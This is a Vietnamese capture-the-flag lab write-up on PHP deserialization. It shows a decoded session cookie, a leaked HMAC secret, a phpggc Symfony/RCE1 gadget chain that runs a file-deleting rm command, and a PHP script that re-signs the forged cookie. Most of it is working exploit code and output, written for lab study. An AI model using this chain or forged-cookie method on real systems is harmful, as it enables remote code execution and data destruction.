







# Writeup LAB Exploiting PHP deserialization with a pre-built gadget chain

## Goal
Finally, pass this into the website to delete the morale.txt file from Carlos's home directory.
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Lịch sử HTTP Burp

Cookie giải mã URL 
```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJrNHZucHA3aTluOHd4ZjAyenRqendzYW5vMG9vZ28wayI7fQ==","sig_hmac_sha1":"fc5cfa073a5310a981d3dda54e4547d5dea73841"}
```
Chúng ta có thể thấy sau khi giải mã được mã base64 kèm theo chữ kí hmac của token đó cùng giải mã dữ liệu 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"k4vnpp7i9n8wxf02ztjzwsano0oogo0k";}
```
Ở trang nguồn ta có thể thấy được 
```
 <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
Cùng truy cập `/cgi-bin/phpinfo.php` để vào trang Debug tìm kiếm với từ khóa `hmac` ta thấy được như sau:

Ta thu được SECRET KEY dể ký HMAC
```
95zba06irdsikp4vv8hjlkr8vmgrsp6i
```
Bằng cách này chúng ta có thể sử dụng tool PHPGCC để build ra payload thực thi của của chúng ta dưa vào rồi thực hiện ký lại theo token để thực thi payload chúng ta .
Cùng thực hiện ở đây chúng ta tạo token lỗi lúc này server render ra lỗi kèm theo version <br>

Tuy nhiên, nó cũng làm rò rỉ cả framework PHP: Symfony phiên bản 4.3.6.
```
❯ ls
 gadgetchains   templates    evil.png   payload.php  󰂺 README.md
 lib            Dockerfile   LICENSE   󰡯 phpggc        test-gc-compatibility.py
❯ ./phpggc -l Symfony 
```

Sử dụng `Symfony/RCE1` và xem chi tiết thông tin
```
❯ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : v3.1.0 <= v3.4.34
Type           : RCE: Command
Vector         : __destruct
Informations   :
Executes given command through proc_open()

./phpggc Symfony/RCE1 <command>
```
Thực hiện với tải trọng chúng ta để xóa tài liệu
```
❯ phpggc -b Symfony/RCE1 'rm /home/carlos/morale.txt'
PHP Deprecated:  Creation of dynamic property PHPGGC::$options is deprecated in /usr/share/phpggc/lib/PHPGGC.php on line 830
PHP Deprecated:  Creation of dynamic property PHPGGC::$parameters is deprecated in /usr/share/phpggc/lib/PHPGGC.php on line 831
PHP Deprecated:  Creation of dynamic property PHPGGC\Enhancement\Enhancements::$enhancements is deprecated in /usr/share/phpggc/lib/PHPGGC/Enhancement/Enhancements.php on line 9
PHP Deprecated:  Creation of dynamic property PHPGGC::$enhancements is deprecated in /usr/share/phpggc/lib/PHPGGC.php on line 183
Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```
Mã base64 encode:
```
Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```
Sau khi có được token để xóa users rồi chúng ta bây giờ cần ký lại địa chỉ HMAC từ SECRET KEY leak được như sau
```php
<?php
$chain = "Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=";
$secret_key = "95zba06irdsikp4vv8hjlkr8vmgrsp6i";
$signedHMACSHA1Key = hash_hmac('sha1', $chain, $secret_key);
$cookie = "{\"token\":\"$chain\",\"sig_hmac_sha1\":\"$signedHMACSHA1Key\"}";
$finalPayload = urlencode($cookie);

echo "Final payload: " . $finalPayload . "\n";  
```
Kết quả:
```
Final payload: %7B%22token%22%3A%22Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D%22%2C%22sig_hmac_sha1%22%3A%2234136ab342715a5adf5f1a3e511ab6e86d87c41c%22%7D
```
Dán lại cookie và gửi yêu cầu POST xóa tệp thành công
